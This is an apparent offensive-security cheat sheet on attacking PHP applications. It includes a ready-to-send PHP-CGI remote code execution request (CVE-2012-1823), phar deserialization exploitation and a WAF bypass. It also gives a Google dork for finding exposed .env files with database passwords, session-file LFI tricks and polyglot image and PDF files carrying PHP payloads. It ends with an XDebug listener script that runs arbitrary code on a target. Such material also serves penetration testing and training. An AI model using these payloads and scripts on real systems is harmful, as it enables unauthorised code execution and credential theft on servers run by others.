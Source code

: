 # PHP

## Command execution

Here is a list of functions to execute commands on a system:

```
exec
passthru
shell_exec
system
proc_open
popen
`{CMD}`
curl_exec
curl_multi_exec
```


## Deserialization

### Phar deserialization

The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)


## Bypass WAF in PHP

From [Abusing PHP query string parser to bypass IDS, IPS, and WAF](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/):

```
/news.php?%20news[id%00=42 ==> $_GET["news_id"]
```


## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```


## PHP session files

On PHP the directive [`session.save_path`](https://www.php.net/manual/en/session.configuration.php#ini.session.save-path)
set the folder where PHP will store the session files. So the session files are
written on the disk. A malicious user may read this files to retrieve information.

On a Windows system (IIS), the default value create files in `C:\Windows\Temp`
with the name `sess_<session_id>`. The `<session_id>` is the value of the
`PHPSESSIONID` cookie. When you have a `Local File Inclusion` (LFI) vulnerability,
it's possible to include this kind of files.

This file contains some user's session variable. So a user can write some PHP
code like `<?php phpinfo() ?>` (as a username for example) in his session and
try to include the file to execute the PHP code.

Here is 2 examples of exploitation:

- The `Alcatel Omnivista 8770` uses this trick to fetch some internal session variable
from the user session. The [exploit](https://www.exploit-db.com/exploits/47761)
gets the session file that is accessible on the server `/session/sess_<session_id>`.

- `ippsec` use this technique in the HTB box [`Sniper`](https://www.youtube.com/watch?v=k7gD4ufex9Q&t=3255s)
to create a use with a username that contains some PHP code. Then he includes
the session file with a LFI.


## PHP Polyglot file

A polyglot file is valid in two different format. For instance a valid `GIF`
file that contains a PHP payload.


### GIF89

[This file](/assets/polyglot.php.gif)) contains a PHP payload in the [Comment
Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF:

```bash
hexdump -C assets/polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

### PDF

You can add a comment (`%`) on the PDF header:

```pdf
%PDF-1.2 %<?phpinfo()?>
...
```


### PNG and IDAT chunks

[In this blog post](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/),
there is an example to create a PNG file that encode a [webshell](/webshell/)
in IDAT chunks.

The goal is to bypass some `PHP` functions such as `imagecreatefrompng`. The
exploit is [here](/assets/gen.php.png).


### Others formats

On most formats (mp3, jpg, ...) there is an `EOF` after what we can add the
payload. So the easiest way is to append to a valid file our payload:

```bash
cat valid.jpg payload.php > polyglot.php.jpg
```


## XDebug

Make a request with the following parameters and header:

```http
GET /path/to/file.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
...
X-Forwarded-For: {YOUR_IP}
HTTP_CLIENT_IP: {YOUR_IP}
```

Then on your server execute the following python script:

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
  client_data = conn.recv(1024)
  print(client_data)
  data = raw_input('>> ')
  conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
